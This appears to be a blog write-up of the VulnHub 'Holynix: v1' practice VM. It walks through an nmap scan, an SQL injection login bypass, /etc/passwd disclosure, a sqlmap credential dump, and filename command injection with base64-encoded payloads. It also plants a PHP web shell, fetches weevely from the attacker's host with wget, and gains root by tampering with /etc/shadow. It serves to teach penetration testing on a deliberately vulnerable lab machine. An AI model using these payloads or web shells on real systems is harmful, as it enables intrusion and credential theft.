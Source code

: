 ```yaml
---
layout: post
title: "Holynix: v1"
date: 2015-05-10 13:54:06 +0200
comments: true
categories: [vulnhub, holynix]
---
```

Image: [Holynix: v1](https://www.vulnhub.com/entry/holynix-v1,20/)

We set networking in Vmware Fusion as "Share with my Mac" and check the 
obtained IP address:

{% codeblock %}
/var/db/vmware:
lease 192.168.80.142 {
        starts 4 2015/04/30 16:18:54;
        ends 4 2015/04/30 16:48:54;
        hardware ethernet 00:0c:29:bc:05:de;
}
{% endcodeblock %}

Nmap output:
{% codeblock %}
root@kali32:~# nmap -sV -p- 192.168.80.142

Starting Nmap 6.47 ( http://nmap.org ) at 2015-04-27 07:16 CEST
Nmap scan report for 192.168.80.142
Host is up (0.00028s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.12 with Suhosin-Patch)
MAC Address: 00:0C:29:BC:05:DE (VMware)
{% endcodeblock %}

There is a SQL injection in the web login, we submit the following username and password: 
{% codeblock %}
test' or '1'='1
{% endcodeblock %}

Via security (ssp.php) we can disclose arbitrary file (for example /etc/passwd):
{% codeblock %}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:105:114:MySQL Server,,,:/var/lib/mysql:/bin/false
alamo:x:1000:115::/home/alamo:/bin/bash
etenenbaum:x:1001:100::/home/etenenbaum:/bin/bash
gmckinnon:x:1002:100::/home/gmckinnon:/bin/bash
hreiser:x:1003:50::/home/hreiser:/bin/bash
jdraper:x:1004:100::/home/jdraper:/bin/bash
jjames:x:1005:50::/home/jjames:/bin/bash
jljohansen:x:1006:115::/home/jljohansen:/bin/bash
ltorvalds:x:1007:113::/home/ltorvalds:/bin/bash
kpoulsen:x:1008:100::/home/kpoulsen:/bin/bash
mrbutler:x:1009:50::/home/mrbutler:/bin/bash
rtmorris:x:1010:100::/home/rtmorris:/bin/bash
{% endcodeblock %}

With sqlmap we can dump the whole database (%40 means '@' character):
{% codeblock %}
# sqlmap -u "http://192.168.80.142/index.php?page=login.php&user_name=a&password=a&Submit_button=Submit" --dump-all
{% endcodeblock %}
{% codeblock %}
root@kali32:~/.sqlmap/output/192.168.80.142/dump# cat creds/accounts.csv
cid,upload,username,password
1,0,alamo,Ih%40cK3dM1cR05oF7
2,1,etenenbaum,P3n7%40g0n0wN3d
3,1,gmckinnon,d15cL0suR3Pr0J3c7
4,1,hreiser,Ik1Ll3dNiN%40r315er
5,1,jdraper,p1%40yIngW17hPh0n35
6,1,jjames,%40rR35t3D%40716
7,1,jljohansen,m%40k1nGb0o7L3g5
8,1,kpoulsen,wH%407ar37H3Fed5D01n
9,0,ltorvalds,f%407H3r0FL1nUX
10,1,mrbutler,n%405aHaSw0rM5
11,1,rtmorris,Myd%40d51N7h3NSA
{% endcodeblock %}

Using sqlmap --passwords parameter we got:
{% codeblock %}
database management system users password hashes:
[*] debian-sys-maint [1]:
    password hash: %2A04DDBBF6BA7B43D9B78611E125C80124644D17B8
[*] root [1]:
    password hash: %2AA69F92BBDEA591F5BB9E4A049F0C181D6DB5177E
{% endcodeblock %}

Back to the web page, there is a cookie set as 'uid=1'. We can try different
numbers, because not every user has allowed to upload file, see accounts.csv. 

We disclose transfer.php script:
{% codeblock lang:php %}
if ( $auth == 0 ) {
        echo "<center><h2>Content Restricted</h2></center>";
} else {
        if ( $upload == 1 )
        {
                $homedir = "/home/".$logged_in_user. "/";
                $uploaddir = "upload/";
                $target = $uploaddir . basename( $_FILES['uploaded']['name']) ;
                $uploaded_type = $_FILES['uploaded']['type'];
                $command=0;
                $ok=1;

                if ( $uploaded_type =="application/gzip" && $_POST['autoextract'] == 'true' ) { $command = 1; }

                if ($ok==0)
                {
                        echo "Sorry your file was not uploaded";
                        echo "<a href='?index.php?page=upload.php' >Back to upload page</a>";
                } else {
                        if(move_uploaded_file($_FILES['uploaded']['tmp_name'], $target))
                        {
                                echo "<h3>The file '" .$_FILES['uploaded']['name']. "' has been uploaded.</h4><br />";
                                echo "The ownership of the uploaded file(s) have been changed accordingly.";
                                echo "<br /><a href='?page=upload.php' >Back to upload page</a>";
                                if ( $command == 1 )
                                {
                                        exec("sudo tar xzf " .$target. " -C " .$homedir);
                                        exec("rm " .$target);
                                } else {
                                        exec("sudo mv " .$target. " " .$homedir . $_FILES['uploaded']['name']);
                                }
                                exec("/var/apache2/htdocs/update_own");
                        } else {
                                echo "Sorry, there was a problem uploading your file.<br />";
                                echo "<br /><a href='?page=upload.php' >Back to upload page</a>";
                        }
                }
        } else { echo "<br /><br /><h3>Home directory uploading disabled for user " .$logged_in_user. "</h3>"; }
}
?>
{% endcodeblock %}

As we can see from the source code, the filename is used in shell command and
we can inject malicious input. However the '/' or '\' characters are
prohibited, because in $target is stored only the value after (back)slash.

Locator (it never terminates, but confirms our finding):
{% codeblock %}
Content-Disposition: form-data; name="uploaded"; filename=";yes;"
{% endcodeblock %}

We can evade the slash restriction encoding the payload as base64 (touch /tmp/owned):
{% codeblock %}
Content-Disposition: form-data; name="uploaded"; filename=";`echo dG91Y2ggL3RtcC9vd25lZA==| base64 -d`;"
{% endcodeblock %}

There could be a problem with a bigger input ("filename too long").

Similarly we upload the following base64 payload redirected to 'b.php':
{% codeblock %}
root@kali32:/var/www# echo '<?php system($_REQUEST['cmd']); ?>' | base64
PD9waHAgc3lzdGVtKCRfUkVRVUVTVFtjbWRdKTsgPz4K
{% endcodeblock %}

We try our php shell and in the case of success, we upload weevely from our web server:
{% codeblock %}
http://192.168.80.142/b.php?cmd=id
http://192.168.80.142/b.php?cmd=wget 192.168.80.137/weevely.php.txt -O c.php
{% endcodeblock %}

{% codeblock %}
root@kali32:/var/www# weevely http://192.168.80.142/c.php 1234
{% endcodeblock %}

Note that there exists also a trivial solution, because users can upload php
shell to home directory, which can be invoked without any restriction.

If we read the discussion on web server, someone is asking about port knocking.
We download the data to our server: 
{% codeblock %}
www-data@:/etc/knockknock.d/profiles/alamo $

root@kali32:~# find .knockknock/
.knockknock/
.knockknock/192.168.80.142
.knockknock/192.168.80.142/config
.knockknock/192.168.80.142/counter
.knockknock/192.168.80.142/mac.key
.knockknock/192.168.80.142/cipher.key
{% endcodeblock %}

From the vulnerable server, we download and use knockknock too:
{% codeblock %}
root@kali32:~/.knockknock# knockknock -p 22 192.168.80.142
*** Success: knock sent.
root@kali32:~/.knockknock# ssh alamo@192.168.80.142

The authenticity of host '192.168.80.142 (192.168.80.142)' can't be established.
RSA key fingerprint is 03:73:de:c7:17:96:0b:bb:8c:8e:c7:87:9b:5b:d5:c9.
Are you sure you want to continue connecting (yes/no)?
{% endcodeblock %}

We log in as alamo / Ih@cK3dM1cR05oF7.

Because nobody has higher privileges for sudo except www-data, we use the web
account to obtain root privileges.
One way of doing this is to change using chown /etc/shadow file permission
to www-data, move to /tmp and change the root hash to a know one (e.g.
alamo's). Then we move the shadow file back. 

In the end we log in as root with Ih@cK3dM1cR05oF7 password:
{% codeblock %}
# uid=0(root) gid=0(root) groups=0(root)
{% endcodeblock %}
